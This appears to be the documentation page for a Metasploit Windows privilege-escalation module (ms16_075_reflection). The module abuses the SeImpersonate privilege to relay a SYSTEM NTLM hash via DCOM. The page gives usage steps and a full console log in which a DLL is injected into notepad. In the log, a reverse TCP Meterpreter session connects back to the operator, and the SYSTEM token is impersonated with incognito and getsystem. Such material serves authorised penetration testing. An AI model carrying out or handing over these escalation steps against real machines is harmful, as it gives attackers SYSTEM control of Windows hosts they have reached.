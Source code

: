 ## Introduction
  This module will abuse the SeImperonsate privilege commonly found in 
services due to the requirement to impersonate a client upon 
authentication. As such it is possible to impersonate the SYSTEM account 
and relay its NTLM hash to RPC via DCOM. The DLL will perform a MiTM 
attack at which intercepts the hash and relay responses from RPC to be 
able to establish a handle to a new SYSTEM token. Some caveats : Set 
your target option to match the architecture of your Meterpreter 
session, else it will inject the wrong architecture DLL into the process 
of a seperate architecture. Additionally, after you have established a 
session, you must use incognito to imperonsate the SYSTEM Token.
## Usage
  You'll first need to obtain a session on the target system.
  Next, once the module is loaded, one simply needs to set the 
```payload``` and ```session``` options, in addition to architecture.
  
  Your user at which you are trying to exploit must have `SeImpersonate` 
privileges.
  
  The module has a hardcoded timeout of 20 seconds, as the attack may 
not work immediately and take a few seconds to start. Also, check to 
make sure port 6666 is inherently not in use else the exploit will not 
run properly
  
## Scenario
```
  Name Current Setting Required Description
   ---- --------------- -------- -----------
   SESSION 48 yes The session to run this module on. Payload options 
(windows/x64/meterpreter/reverse_tcp):
   Name Current Setting Required Description
   ---- --------------- -------- -----------
   EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, 
process, none)
   LHOST ens3 yes The listen address (an interface may be specified)
   LPORT 3312 yes The listen port Exploit target:
   Id Name
   -- ----
   1 Windows x64 msf exploit(windows/local/ms16_075_reflection) > run 
[*] Started reverse TCP handler on -snip-:3312 [*] Launching notepad to 
host the exploit... [+] Process 3564 launched. [*] Reflectively 
injecting the exploit DLL into 3564... [*] Injecting exploit into 
3564... [*] Exploit injected. Injecting payload into 3564... [*] Payload 
injected. Executing exploit... [+] Exploit finished, wait for (hopefully 
privileged) payload execution to complete. [*] Sending stage (206403 
bytes) to -snip- [*] Meterpreter session 49 opened (-snip-:3312 -> 
-snip-:55306) at 2018-08-03 01:54:18 -0400 meterpreter > load incognito 
Loading extension incognito...Success. meterpreter > impersonate_token 
'NT AUTHORITY\SYSTEM' [-] Warning: Not currently running as SYSTEM, not 
all tokens will be available
             Call rev2self if primary process token is SYSTEM [-] No 
delegation token available [+] Successfully impersonated user NT 
AUTHORITY\SYSTEM meterpreter > getsystem -t 1 ...got system via 
technique 1 (Named Pipe Impersonation (In Memory/Admin)). meterpreter > 
```
